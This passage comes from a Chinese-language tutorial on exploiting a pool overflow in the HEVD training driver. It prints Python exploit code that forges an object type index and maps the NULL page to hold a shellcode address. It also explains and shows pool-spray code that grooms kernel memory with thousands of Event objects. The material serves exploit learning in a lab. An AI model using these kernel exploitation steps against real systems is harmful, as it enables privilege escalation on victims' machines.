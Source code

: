 ```

    data += struct.pack("L", 0x00000000)

    data += struct.pack("L", 0x00080000) #此处为伪造TypeIndex处



def Build_Fake_Object_Type(shellcode_address):

   

   

    null_status = NtAllocateVirtualMemory(GetCurrentProcess(), byref(c_void_p(0x1)), 0, byref(c_ulong(0x100)), 0x3000,  0x40)

    if null_status != 0x0:

            print "\t[+] Failed to allocate NULL page..."

            sys.exit(-1)

    else:

            print "\t[+] NULL Page Allocated"



    ptr=c_void_p(0x60)

    ptr.contents=c_int(shellcode_address)

   

    memmove(c_void_p(0x60), byref(c_ulong(shellcode_address)), 4)
```

[![](https://p2.ssl.qhimg.com/t01f66c7c276a74ee4b.png)](https://p2.ssl.qhimg.com/t01f66c7c276a74ee4b.png)

### 池喷射

控制函数执行流的方式有了，接下来需要解决的一个问题是：如何精确控制内存，使得该池的下一个块即为Event结构体。

要解决这个问题就要使用池喷射，原理与堆喷射类似，简要介绍为：1.申请出大量的Event结构体，使得后续每次申请出来池时都是分配器新分配出来的内存页，而不是之前的地址；2.释放小块连续的堆块，形成空洞。使得其合并大小与HEVD代码中申请出的池块大小相同，通过前面的调试可以知道Event结构体大小为0x40，申请出来的池块大小为0x200，所以连续释放的八个Event结构体会合并为0x200。3.经过上一步，0x200的空闲堆块后均为Event结构体，此时开始执行，可以确保池结构体后面紧接着Event结构体。实现精准控制。

具体代码如下所示：

```
padd_array=[]

    fengshui_array=[]

    for i in range(0,10000):

        padd_array.append(CreateEventA(None, False, False, None))

    for i in range(0,5000):

        fengshui_array.append(CreateEventA(None, False, False, None))

   

```
